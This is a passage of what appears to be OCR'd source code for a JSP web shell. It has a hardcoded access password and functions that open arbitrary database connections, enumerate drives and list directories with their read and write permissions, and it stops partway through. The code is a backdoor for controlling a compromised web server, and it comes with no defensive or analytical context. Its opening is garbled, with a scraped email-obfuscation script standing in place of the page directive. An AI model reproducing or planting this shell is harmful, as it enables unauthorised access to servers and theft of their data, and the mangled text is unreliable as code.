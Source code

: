     <<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="fdd8bd8d9c9a98">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script> import="java.io.*,java.util.*,java.net.*,java.sql.*,java.text.*"%>  
    <%!  
      String Pwd = "hetian";  
      String cs = "UTF-8";  

       String EC(String s) throws Exception {  
           return new String(s.getBytes("ISO-8859-1"),cs);  
       }  

       Connection GC(String s) throws Exception {  
           String[] x = s.trim().split("choraheiheihei");  
         Class.forName(x[0].trim());  
          if(x[1].indexOf("jdbc:oracle")!=-1){  
              return DriverManager.getConnection(x[1].trim()+":"+x[4],x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);  
          }else{  
              Connection c = DriverManager.getConnection(x[1].trim(),x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);  
            if (x.length > 4) {  
                  c.setCatalog(x[4]);  
              }  
              return c;  
           }  
       }  

      void AA(StringBuffer sb) throws Exception {  
          File k = new File("");  
          File r[] = k.listRoots();  
           for (int i = 0; i < r.length; i++) {  
             sb.append(r[i].toString().substring(0, 2));  
         }  
      }  

       void BB(String s, StringBuffer sb) throws Exception {  
           File oF = new File(s), l[] = oF.listFiles();  
         String sT, sQ, sF = "";  
            java.util.Date dt;  
          SimpleDateFormat fm = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");  
         for (int i = 0; i < l.length; i++) {  
              dt = new java.util.Date(l[i].lastModified());  
               sT = fm.format(dt);  
               sQ = l[i].canRead() ? "R" : "";  
               sQ += l[i].canWrite() ? " W" : "";  
               if (l[i].isDirectory()) {  
                   sb.append(l[i].getName() + "/\t" + sT + "\t" + l[i].length()+ "\t" + sQ + "\n");  
              } else {  
                   sF+=l[i].getName() + "\t" + sT + "\t" + l[i].length() + "\t"+ sQ + "\n";  
               }  
           }  
           sb.append(sF);  
       }  
